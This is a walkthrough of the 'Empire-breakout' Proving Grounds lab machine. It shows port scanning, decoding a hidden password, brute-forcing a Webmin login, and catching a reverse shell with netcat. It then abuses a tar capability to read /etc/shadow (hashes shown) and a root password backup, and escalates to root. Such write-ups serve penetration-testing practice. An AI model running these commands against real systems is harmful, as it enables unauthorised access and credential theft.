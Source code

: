 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


## **Description ⤵️**


💡 This machine consists of username enumeration through bruteforce then access the webshell after that play with SUIDs comamds for root !



### Let’s find the IP Address first >>

```bash
IP : 192.168.164.238
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.164.238
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 14:22 IST
Stats: 0:09:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 39.94% done; ETC: 14:46 (0:14:02 remaining)
Warning: 192.168.164.238 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.164.238
Host is up (0.30s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
2904/tcp  filtered m2ua
4078/tcp  filtered cssp
9250/tcp  filtered unknown
10000/tcp open     tcpwrapped
12407/tcp filtered unknown
12665/tcp filtered unknown
14359/tcp filtered unknown
14997/tcp filtered unknown
16032/tcp filtered unknown
17092/tcp filtered unknown
19944/tcp filtered unknown
20000/tcp open     http       MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
22474/tcp filtered unknown
26283/tcp filtered unknown
29720/tcp filtered unknown
31306/tcp filtered unknown
39871/tcp filtered unknown
41579/tcp filtered unknown
55786/tcp filtered unknown
57478/tcp filtered unknown
57725/tcp filtered unknown
62844/tcp filtered unknown
63324/tcp filtered unknown
63436/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1374.00 seconds
```

---

## Web Enumeration ⤵️

Now this machine runs an Apache server After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled.png)

After decoding this Brainfuck encoding I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%201.png)

```bash
.2uqPEfj3D<P'a-3
```

Now I also see port 10000 and 20000 open as http-login page lets see →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%203.png)

Now after running burpsuite for username bruteforce I got this on port 20000 →

```bash
cyber : .2uqPEfj3D<P'a-3
```

After Getting password when I logged into the website →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%204.png)

Now I got access for the home directory of cyber user as a web interface →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%205.png)

Now I clicked into the webshell option on top right side and tried reverse shell →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.164.238: inverse host lookup failed: Unknown host
connect to [192.168.45.219] from (UNKNOWN) [192.168.164.238] 33992
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$ id
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
cyber@breakout:~$
```

Lets see the files →

```bash
cyber@breakout:~$ ls -al
ls -al
total 572
drwxr-xr-x  8 cyber cyber   4096 Jul 15 06:16 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 root  root      33 Jul 15 04:49 local.txt
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
-rw-r--r--  1 cyber cyber   3464 Jul 15 06:16 shell.php
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Jul 15 06:23 .tmp
drwx------ 17 cyber cyber   4096 Jul 15 06:12 .usermin
cyber@breakout:~$ cat local.txt	
cat local.txt
acff2c9656634fdd92b71c7c91d1e01c
cyber@breakout:~$
```

while checking capabilities I got tar →

```bash
cyber@breakout:/$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:/$
```

If I can’t be root directly through executing the payload of tar into the shell so lets try to read the content of root priviledge files through this payload →

```bash
File read >

LFILE=file_to_read
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

```bash
cyber@breakout:~$ ./tar xf /etc/shadow -I '/bin/sh -c "cat 1>&2"'      
root:$y$j9T$eJzu0TYuqGwZThJJzbP6o.$Xs23PV9/MdV33YMgceRv1Ic6anL08XclYLE9UX1WiJ6:19381:0:99999:7:::
daemon:*:18919:0:99999:7:::
bin:*:18919:0:99999:7:::
sys:*:18919:0:99999:7:::
sync:*:18919:0:99999:7:::
games:*:18919:0:99999:7:::
man:*:18919:0:99999:7:::
lp:*:18919:0:99999:7:::
mail:*:18919:0:99999:7:::
news:*:18919:0:99999:7:::
uucp:*:18919:0:99999:7:::
proxy:*:18919:0:99999:7:::
www-data:*:18919:0:99999:7:::
backup:*:18919:0:99999:7:::
list:*:18919:0:99999:7:::
irc:*:18919:0:99999:7:::
gnats:*:18919:0:99999:7:::
nobody:*:18919:0:99999:7:::
_apt:*:18919:0:99999:7:::
systemd-timesync:*:18919:0:99999:7:::
systemd-network:*:18919:0:99999:7:::
systemd-resolve:*:18919:0:99999:7:::
messagebus:*:18919:0:99999:7:::
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
systemd-coredump:!*:18919::::::
cyber@breakout:~$
```

Now while enumeration I also found a file named as .old.pass.bak but it has root permission so lets try to open that file →

```bash
cyber@breakout:/var/backups$ ls -al                                     
total 484
drwxr-xr-x  2 root root   4096 Dec  8  2022 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8  2022 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17  2022 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8  2022 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$
```

```bash
cyber@breakout:~$ ./tar xf /var/backups/.old_pass.bak -I '/bin/sh -c "cat 1>&2"'
Ts&4&YurgtRX(=~h
cyber@breakout:~$
```

Now lets use this string value as a password of this root user →

```bash
cyber@breakout:~$ su root
Password: 
root@breakout:/home/cyber# cd /root
root@breakout:~# whoami
root
root@breakout:~# id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# ls -al
total 40
drwx------  6 root root 4096 Jul 15 04:50 .
drwxr-xr-x 18 root root 4096 Oct 19  2021 ..
-rw-------  1 root root 1010 Dec 14  2022 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 19  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Jul 15 04:50 proof.txt
drwx------  2 root root 4096 Oct 19  2021 .spamassassin
drwxr-xr-x  2 root root 4096 Oct 19  2021 .tmp
drwx------  6 root root 4096 Oct 19  2021 .usermin
root@breakout:~# cat proof.txt
d433cb8a51a9d8e36e928a564f71d053
root@breakout:~#
```